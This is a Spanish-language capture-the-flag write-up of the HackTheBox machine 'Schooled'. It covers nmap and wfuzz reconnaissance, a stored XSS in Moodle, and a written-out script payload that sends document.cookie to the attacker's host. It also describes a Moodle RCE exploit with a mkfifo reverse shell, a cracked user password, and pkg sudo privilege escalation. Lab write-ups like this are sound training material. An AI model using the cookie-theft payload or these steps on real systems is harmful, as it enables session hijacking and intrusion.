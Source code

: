 ```yaml
---
title: "Schooled - HackTheBox"
layout: single
excerpt: "Esta es una máquina de dificultad media, para su intrusión me aproveché de un 'XSS' para robarle la cookie de sesión al administrador y hacer uso de un 'exploit' para ganar ejecución de código arbitrario, para la escalada de privilegios tenía la capacidad de ejecutar el binario `pkg` con privilegios de 'root', para ello me dirigí a gtfobins y encontré una carga util que permitía escalar privilegio."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - XSS
  - Cookie Hijacking
  - pkg
  - mysql
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/133931267-f416086e-4b4e-4e59-8524-f4aec4d584a2.jpg">
</p>

Empece con un escaneo de `Nmap` para detectar puertos abiertos en la maquina.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sS --min-rate=5000 -vvv -n -Pn --open 10.10.10.234 -oN targeted
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:18 EDT
Initiating SYN Stealth Scan at 06:18
Scanning 10.10.10.234 [1000 ports]
Discovered open port 22/tcp on 10.10.10.234
Discovered open port 80/tcp on 10.10.10.234
Completed SYN Stealth Scan at 06:18, 0.52s elapsed (1000 total ports)
Nmap scan report for 10.10.10.234
Host is up, received user-set (0.047s latency).
Scanned at 2021-09-18 06:18:46 EDT for 0s
Not shown: 798 filtered ports, 200 closed ports
Reason: 798 no-responses and 200 resets
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh 	syn-ack ttl 63
80/tcp open  http	syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds
       	Raw packets sent: 1798 (79.112KB) | Rcvd: 202 (8.088KB)
```

Hice otro escaneo para detectar la version de cada puerto abierto.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# nmap -sC -sV -p22,80 10.10.10.234 -oN webScan                    	 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-18 06:20 EDT
Nmap scan report for 10.10.10.234
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh 	OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open  http	Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.25 seconds
```

Tenia dos puertos abiertos, el primero era de servicio `ssh` y el otro era un servidor web, poco podia hacer en el primero por lo que recurri a ver que habia en el servidor web.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Al parecer era una pagina de colegio, segui investigandola un poco mas y encontre lo siguiente en el "footer" de la web.

![https://imgur.com/Vnl3TCA.png](https://imgur.com/Vnl3TCA.png)

Esto me llamo la atencion, pense que se podria estar aplicando `virtual hosting`, es decir alojar distintos dominios en una sola `IP`, para ello lo introduje en el `/etc/hosts`.

![https://imgur.com/9V1ffkh.png](https://imgur.com/9V1ffkh.png)

Volvi a acceder a la web pero no habia nada interesante.

![https://imgur.com/LXCKb0F.png](https://imgur.com/LXCKb0F.png)

Hice uso de `whatweb` para ver si corria algun `CMS`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# whatweb http://schooled.htb/
http://schooled.htb/ [200 OK] Apache[2.4.46], Bootstrap, Country[RESERVED][ZZ], Email[#,admissions@schooled.htb], HTML5, HTTPServer[FreeBSD][Apache/2.4.46 (FreeBSD) PHP/7.4.15], IP[10.10.10.234], PHP[7.4.15], Script, Title[Schooled - A new kind of educational institute], X-UA-Compatible[IE=edge]
```

Al parecer era la misma, para ello hice `fuzzing` de subdominios y encontre uno que me llamo la atencion.

```bash
┌──(root💀kali)-[/home/kali/HTB/Schooled/machine]
└─# wfuzz -c --hc=404 -u http://schooled.htb/ -H "Host: FUZZ.schooled.htb" -w /usr/share/amass/wordlists/subdomains.lst -t 20 --hw=1555
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                     	*
********************************************************

Target: http://schooled.htb/
Total requests: 8215

=====================================================================
ID       	Response   Lines	Word   	Chars   	Payload                                                                                 	 
=====================================================================

000002430:   400    	10 L 	45 W   	347 Ch  	"ferrari.fortwayne.com."                                                                	 
000004127:   200    	1 L  	5 W    	84 Ch   	"moodle"
```

`Moodle` era un subdominio que al parecer estaba aplicando, lo introduje en el `/etc/hosts`.

![https://imgur.com/OShD4Q5.png](https://imgur.com/OShD4Q5.png)

Y la pagina me reporta algo diferente, era un `moodle`.

![https://imgur.com/tCieGJx.png](https://imgur.com/tCieGJx.png)

Tenia un boton que ponia `Log In`, dandole click me redirigio a una pagina de inicio de sesion.

![https://imgur.com/dvEEVpA.png](https://imgur.com/dvEEVpA.png)

No tenia credenciales por lo que poco podia hacer, pero me podia registrar.

![https://imgur.com/W3FR84S.png](https://imgur.com/W3FR84S.png)

Una vez registrado, accedí.

![https://imgur.com/OnSim3m.png](https://imgur.com/OnSim3m.png)

Viendo todas las asignaturas que habian, `matematicas` era la unica que tenia un usuario llamado `Manuel Philips`.

![https://imgur.com/3VUKpya.png](https://imgur.com/3VUKpya.png)

Encontré un comentario de este usuario

![Sin título](https://user-images.githubusercontent.com/69093629/133926900-af1637e3-314c-4dda-bb96-178b33c451ea.png)

Lo que mas me llamo la atencion es que pone que verificara a todos los usuarios, mirando un poco mas la pagina encontre este `buffer` que al parecer me permitia hablar con `Manuel Philips`.

![Sin título (1)](https://user-images.githubusercontent.com/69093629/133927147-9a385fb3-0922-411c-8ee7-4dfb08c6d7a1.png)

Intente ver si era vulnearable a `XSS`.

![Sin título (3)](https://user-images.githubusercontent.com/69093629/133931466-a0f9caa9-c44c-4b5a-b8dd-61e7a2959d82.png)

Y me reporto la alerta por pantalla.

![https://imgur.com/OpYC8nU.png](https://imgur.com/OpYC8nU.png)

Ahora que sabia que era vulnerable a `XSS` me acorde del mensaje que decia que se verificarian todos los usuarios, pense en efectuar un `Cookie Hijacking`, es decir robar la `cookie` de sesion del usuario privilgiado, para ello use la siguiente sintaxis en `js`.

```js
<script>document.location="http://10.10.16.3/value_cookie="+document.cookie</script>
```

Realmente se puede hacer de muchas maneras.

![https://imgur.com/upgz0Co.png](https://imgur.com/upgz0Co.png)

Abri un servidor por `python` y recibi mi `cookie` de sesion por `GET` mas otras que no eran mias. 

![https://imgur.com/gYNFMRR.png](https://imgur.com/gYNFMRR.png)

Me autentique con la `cookie` que recibi y al parecer era del usuario `Manuel Philips`, volviendo al mensaje de antes, vi que ponia algo de `MoodleNet`, me dio por investigar y encontré un exploit de `Lanz` que te garantiza `RCE`.

![Captura de pantalla (2)](https://user-images.githubusercontent.com/69093629/133928030-748d5a80-0d9f-4ed9-be5d-0d78952340d3.png)

Lo ejecute brindandole la `cookie` de sesion del usuario `Manuel Philips` y ejecutando una `reverse shell` por `mkfifo` y gane acceso a la maquina.

![https://imgur.com/JpUx8Ox.png](https://imgur.com/JpUx8Ox.png)

Investigando la maquina encontré un archivo llamado `config.php` que tenia credenciales de `MySQL`.

![https://imgur.com/r590xtu.png](https://imgur.com/r590xtu.png)

Antes de usar `MySQL` hice uso de la utilidad `MySQLshow` para enumerar un poco las bases de datos que habian y sus tablas.

![Qm7IKtT](https://user-images.githubusercontent.com/69093629/133929540-2504f516-0097-41ca-9ca8-e896e68c1dd1.png)

Tras una enumeracion de la base de datos `moodle` encontré una tabla en especial llamada `mdl_user`, enumerandola encontré distintas columnas, pero me llamaron la atencion en especial "username", "password" y "email", tras enumerarlas me reporto distintos `hashes` de usuarios.

![https://imgur.com/CBBvwrR.png](https://imgur.com/CBBvwrR.png)

Decidi crackear los `hashes` con `john` en local y consegui crackear la credencial `!QAZ2wsx` que era del usuario `jamie`, como la maquina tenia `SSH` abierto probe a autenticarme con estas credenciales y accedi, ya pude visualizar la "flag" del usuario.

![NPUMyaN](https://user-images.githubusercontent.com/69093629/133930143-76bae971-7103-44df-b564-bc03fb6052b4.jpg)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Haciendo `sudo -l` vi que podia ejecutar `pkg` como cualquier usuario.

![https://imgur.com/5rV3sG0.png](https://imgur.com/5rV3sG0.png)

Me dirigi a [gtfobins](https://gtfobins.github.io) y encontré una carga util que me permitia escalar privilegios.

![https://imgur.com/EjF0tv9.png](https://imgur.com/EjF0tv9.png)

En la maquina victima no tenia `fpm` instalado, para ello lo hice en mi maquina y lo transferi a la maquina victima y lo ejecute, ya pude visualizar la "flag" de `root`.

![t7fDsbP](https://user-images.githubusercontent.com/69093629/133930359-c73352b9-00dd-4bf5-88dc-d9078cf3439a.jpg)




































